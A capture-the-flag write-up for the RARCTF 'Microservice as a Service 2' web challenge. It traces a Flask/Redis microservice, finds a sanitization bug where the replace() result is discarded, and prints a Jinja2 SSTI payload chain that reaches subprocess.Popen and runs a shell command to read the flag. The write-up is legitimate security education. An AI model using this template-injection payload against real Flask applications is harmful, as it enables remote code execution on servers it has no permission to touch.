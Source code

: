 ```yaml
---
grand_parent: Categories
parent: Web
title: Microservice as a Service 2
nav_order: 1
---
```


# Microservice as a Service 2

```
Part 2: Notes

https://maas.rars.win/
```

### Challenge

> TL;DR: Solved by unintended solution due to improper input sanitization.

Once again, we begin by analyzing the docker network layout. We will be able to access `notes` from the main application. We also see that there are 2 additional hosts, `redis_users` and `redis_userdata`, which we cannot reach from the main application directly as they reside in `notes-net`:
```yml
  notes:
    build: notes
    depends_on: ["redis_users", "redis_userdata"]
    networks:
      - level-1
      - notes-net
  redis_users:
    image: library/redis:latest
    networks:
      - notes-net
  redis_userdata:
    build: notes/redis_userdata
    networks:
      - notes-net
```

Looking at how the main application calls the `notes` network, we see that we first have to register with a `username` and afterwards we will get a  `uid` assigned to our session.

**Source**: `app/app.py`
```py
@app.route('/notes/profile', methods=["POST", "GET"])
def profile():
    username = session.get('notes-username')
    if not username:
        return redirect('/notes/register')
    uid = requests.get(f"http://notes:5000/getid/{username}").text
    // ...

@app.route('/notes/register', methods=["GET", "POST"])
def register():
    if request.method == "GET":
        return render_template('register.html')
    data = {"mode": "register", "username": request.form.get("username")}
    requests.post("http://notes:5000/useraction", data=data)
    session["notes-username"] = request.form.get("username")
    return redirect("/notes/profile")
```

**Source**: `app/notes/app.py`
```py
@app.route('/useraction', methods=["POST"])
def useraction():
    mode = request.form.get("mode")
    username = request.form.get("username")
    if mode == "register":
        r = requests.get('http://redis_userdata:5000/adduser')
        port = int(r.text)
        red = redis.Redis(host="redis_users")
        red.set(username, port)
        return ""

@app.route('/getid/<username>')
def getid(username):
    red = redis.Redis(host="redis_users")
    return red.get(username).decode()
```

At this point, we observe that a Redis database is being deployed on the `redis_users` host.

**Source**: `app/notes/redis_userdata/app.py`
```js
@app.route('/adduser')
def adduser():
    port = random.randint(50000, 60000)
    if os.system(f"redis-server --port {port} --daemonize yes --protected-mode no") == 0:
        return str(port), 200
    else:
        return "0", 500
```

To summarize, each time a `username` is registered, a random port number from 50000 to 60000 is generated and opened on the `redis_userdata` host. This port number is made known to `notes` host, which stores it to a Redis instance running on `redis_users` host in the format `{username:port}`.

Now that the application is clear to us, it's time to find the path forward. It appears that each user can save a `bio` to their own profile. This bio is treated as a template and rendered when a GET request is sent to the `/notes/profile` route on the main application server. Perhaps we can perform SSTI?

**Source**: `app/app.py`
```py
def render_bio(username, userdata):
    data = {"username": username,
            "mode": "bioget"}
    r = requests.post("http://notes:5000/useraction", data=data)
    try:
        r = requests.post("http://notes:5000/render", json={"bio": r.text, "data": userdata})
        return r.text
    except:
        return "Error in bio"

@app.route('/notes/profile', methods=["POST", "GET"])
def profile():
    // ...
    if request.method == "GET":
        return render_template("profile.html",
                               bio=render_bio(username, userdata(username)),
                               userid=uid
                               )
    // ...
```

It appears that whatever a user loads their own profile, the main application makes a request to `http://notes/useraction` with the `mode` set to `bioget`. This results in the following code to execute on `notes` server:

**Source**: `app/notes/app.py`
```py
elif mode == "bioget":
    red = redis.Redis(host="redis_users")
    port = red.get(username).decode()
    r = requests.get(f"http://redis_userdata:5000/bio/{port}")
    return r.text
```

Which in turns retrieves `bio` from the `redis_userdata` host:

**Source**: `app/notes/redis_userdata/app.py`
```py
@app.route("/bio/<port>", methods=["POST", "GET"])
def bio(port):
    if request.method == "GET":
        if os.path.exists(f"/tmp/{port}.txt"):
            with open(f"/tmp/{port}.txt") as f:
                return f.read()
        else:
            return ""
    elif request.method == "POST":
        with open(f"/tmp/{port}.txt", 'w') as f:
            f.write(request.json.get("bio"))
        return ""
```

After retrieving a `bio`, the main application will make a request to the `notes` host, which will in turn render the data sent as a template.

**Source**: `app/app.py:render_bio()`
```py
r = requests.post("http://notes:5000/render", json={"bio": r.text, "data": userdata})
        return r.text
```

**Source**: `app/notes/app.py`
```py
@app.route("/render", methods=["POST"])
def render_bio():
    data = request.json.get('data')
    if data is None:
        data = {}
    return render_template_string(request.json.get('bio'), data=data)
```

So, we just have to save SSTI payloads in our `bio`, right? But, remember that the `bioadd` code sanitizes our input?

**Source**: `app/notes/app.py`
```py
elif mode == "bioadd":
        bio = request.form.get("bio")
        bio.replace(".", "").replace("_", "").\
            replace("{", "").replace("}", "").\
            replace("(", "").replace(")", "").\
            replace("|", "")

        bio = re.sub(r'\[\[([^\[\]]+)\]\]', r'{{data["\g<1>"]}}', bio)
        red = redis.Redis(host="redis_users")
        port = red.get(username).decode()
        r = requests.post(f"http://redis_userdata:5000/bio/{port}", json={
            "bio": bio
        })
        return r.text
```

Notice anything off? The return value of the `.replace()` chain was never re-assigned into the `bio` variable. This breaks the sanitization process and we are able to directly inject SSTI payloads!

Performing the typical payload testing to leak the `subprocess.Popen` class, we found the offset to be at 278:

```
{{ ''.__class__.__mro__ }}
    -> (<class 'str'>, <class 'object'>)

{{ ''.__class__.__mro__[1].__subclasses__() }}
    -> [<class 'type'>, <class 'weakref'>, ... ]
    -> Index of <class 'subprocess.Popen'> is [278]

{{ ''.__class__.__mro__[1].__subclasses__()[278]('cat /flag.txt', shell=True, stdout=-1).communicate() }}
```

<img src="images/maas2-01.jpg">

Save the final payload as a `bio` and upon the page reload, we will see the flag displayed to us.

<img src="images/maas2-02.jpg">

Flag: `rarctf{wh4t_w4s_1_th1nk1ng..._60a4ee96}`
